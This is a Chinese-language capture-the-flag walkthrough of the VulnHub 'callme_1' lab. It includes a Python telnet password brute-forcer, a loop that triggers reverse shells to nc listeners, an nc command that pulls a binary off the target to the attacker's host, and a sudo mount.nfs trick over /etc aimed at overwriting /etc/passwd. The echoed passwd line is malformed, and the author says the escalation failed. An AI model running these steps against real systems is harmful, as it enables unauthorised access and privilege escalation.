









**靶机下载地址**: https://www.vulnhub.com/entry/callme_1,615/


**环境配置**:
OVA导入 启动后改NAT即可

**靶机ip**: 192.168.136.170

## 信息收集
nmap -A -sC -sV -p- 192.168.136.170



开了
22 111 2323


**攻击2323端口**



采用telnet进行交互


测试确定用户名为admin

可以尝试爆破密码
brute.py
```py
import socket
import time
import sys

with open('./rockyou.txt') as passwords:
    for (passwd,i) in zip(passwords,range(1,1575)):
        print("\r", end="")
        username = b'admin'
        ip = '192.168.136.170'
        port = 2323
        s = socket.socket()
        s.connect((ip, port))
        s.recv(1024)
        s.recv(1024)
        s.send(username + b'\r\n')
        s.recv(1024)
        s.send(passwd.strip().encode() + b'\r\n')
        re = s.recv(1024)
        s.recv(1024)
        sys.stdout.flush()
        time.sleep(0.01)
        if "Wrong password for user admin" not in str(re):
            print("\n[*] Get it! PASSWORD is:")
            print(passwd)
            break
```

```shell
python3 brute.py
```


成功得到密码booboo



猜测这个数字和端口有关



监听端口 爆破等待上线
另开几个terminal
rlwrap nc -lnvp 2025
rlwrap nc -lnvp 2333
rlwrap nc -lnvp 2021
rlwrap nc -lnvp 2112


```py
import socket
import time

username = b'admin'
password = b"booboo"
ip = '192.168.136.170'
port = 2323
while True:
    s = socket.socket()
    s.connect((ip, port))
    s.recv(1024)
    s.send(username + b'\r\n')
    s.recv(1024)
    s.send(password + b'\r\n')
    re = s.recv(1024)
    print(s.recv(1024))
    s.close()


```


python3 baopo.py

拿到shell，linux机器返回一个windows的shell，猜测是用了wine运行的程序


dir查看发现有个local.txt

type local.txt


同时发现一个staratup程序
查看


发现是wine运行了一个 recallserver.exe
根据wine的运行配置我们很容易找到目录

/home/fox/.wine/drive_c/windows/system32/recallserver.exe

cd ./.wine/drive_c/windows/system32/

尝试在靶机起一个python下载，但是靶机wine给的shell运行不了python

但可以用nc来传文件
靶机:
nc -n 192.168.136.146 5001 < recallserver.exe

kali:
nc -l 5001 > 1.exe



得到登录密码
tutankamenFERILLI

然后ssh登陆fox
python起一个交互shell

python -c 'import pty;pty.spawn("/bin/bash")'


sudo -l
```
User fox may run the following commands on callme:
    (root) /usr/sbin/mount.nfs
```

我们可以将 Kali 本地的 /etc 挂载到靶机的 /etc 从而覆盖 /etc/passwd

在kali上生成密码
```shell
openssl passwd -1 -salt uuuqqq 123qwe
```
$1$uuuqqq$PkR/lj1lVJ9LKHHxAGGgt1

写入/etc/passwd
echo '$1$uuuqqq$PkR/lj1lVJ9LKHHxAGGgt1' >> /etc/passwd

kali上启动nfs
```
apt-get install nfs-kernel-server # 下载server
echo '/etc *(rw,no_root_squash,insecure)' > /etc/exports # 设置/etc允许被挂载
systemctl restart nfs-utils.service
/etc/init.d/nfs-kernel-server restart
```

然后靶机fox挂载
```shell
sudo mount.nfs 192.168.136.146:/etc /etc
```

df查看挂载结果


最后一行成功挂载

然后切换用户提权

emmm 切换不了。。。 


就到这吧  这靶机也没啥意思。。。